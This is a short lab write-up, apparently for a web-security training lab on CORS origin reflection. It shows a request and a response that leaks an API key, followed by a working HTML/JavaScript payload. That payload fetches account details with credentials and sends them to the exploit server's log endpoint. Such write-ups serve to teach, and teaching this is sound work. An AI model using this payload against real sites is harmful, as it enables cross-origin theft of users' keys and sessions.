 # 1 - Basic Origin Reflection

### Notes

This website has an insecure CORS configuration in that it trusts all origins.

When an Origin header with any value is added to requests to `/accountDetails`, the application echoes it in the `Access-Control-Allow-Origin` response header.

```http
GET /accountDetails HTTP/1.1

Origin: https://random-website.com
```

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://random-website.com
Access-Control-Allow-Credentials: true
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "jFjdQBJldim1j7cv1Zm8C0BiImuskK5U",
  "sessions": [
    "2K43vdr9uBieBO6hKPxign5cBBk0RkHv"
  ]
}
```

The following payload, delivered to the user, can be used to log their API key in the lab's exploit server:

```html
<html>
  <body>
    <script>
      const xhr = new XMLHttpRequest()
      const labUrl = 'https://acb81fbb1f7d870ec0f52ab300bf0064.web-security-academy.net'

      xhr.onreadystatechange = () => {
        if (xhr.readyState == XMLHttpRequest.DONE) {
          fetch('/log?key=' + xhr.responseText)
        }
      }

      xhr.open('GET', `${labUrl}/accountDetails`, true)
      xhr.withCredentials = true

      xhr.send(null)
    </script>
  </body>
</html>

```
